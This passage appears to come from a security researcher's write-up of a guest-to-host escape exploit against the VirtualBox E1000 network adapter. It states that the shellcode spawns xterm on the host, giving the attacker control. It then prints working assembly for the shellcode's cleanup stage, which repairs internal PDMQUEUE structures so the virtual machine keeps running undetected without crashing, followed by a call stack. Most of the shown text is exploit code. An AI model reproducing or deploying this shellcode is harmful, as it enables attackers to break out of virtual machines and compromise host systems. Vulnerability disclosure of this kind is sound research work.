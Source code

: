 It does fork and execve to create /usr/bin/xterm process. The attacker gains control over the host's ring 3.

### Process Continuation
I believe every exploit should be finished. It means it should not crash an application, though it's not always possible, of course. We need the virtual machine to continue execution which is achieved by the second part of shellcode.

```asm
continue_process_execution:
    ; Restore RBP
    mov rbp, rsp
    add rbp, 0x48

    ; Skip junk
    add rsp, 0x10

    ; Restore the registers that must be preserved according to System V ABI
    pop rbx
    pop r12
    pop r13
    pop r14
    pop r15

    ; Skip junk
    add rsp, 0x8

    ; Fix the linked list of PDMQUEUE to prevent segfaults on VM shutdown
    ; Before:   "E1000-Xmit" -> "E1000-Rcv" -> "Mouse_1" -> NULL
    ; After:    "E1000-Xmit" -> NULL

    ; Zero out the entire PDMQUEUE "Mouse_1" pointed by "E1000-Rcv"
    ; This was unnecessary on my testing machines but to be sure...
    mov rdi, [rbx]
    mov rax, 0x0
    mov rcx, 0xA0
    rep stosb

    ; NULL out a pointer to PDMQUEUE "E1000-Rcv" stored in "E1000-Xmit"
    ; because the first 8 bytes of "E1000-Rcv" (a pointer to "Mouse_1") 
    ; will be corrupted in MMHyperFree
    mov qword [rbx], 0x0

    ; Now the last PDMQUEUE is "E1000-Xmit" which will not be corrupted

    ret
```

When e1kHandleRxPacket is called a callstack is:

```
#0 e1kHandleRxPacket
#1 e1kTransmitFrame
#2 e1kXmitDesc
#3 e1kXmitPacket
#4 e1kXmitPending
#5 e1kR3NetworkDown_XmitPending
...
```
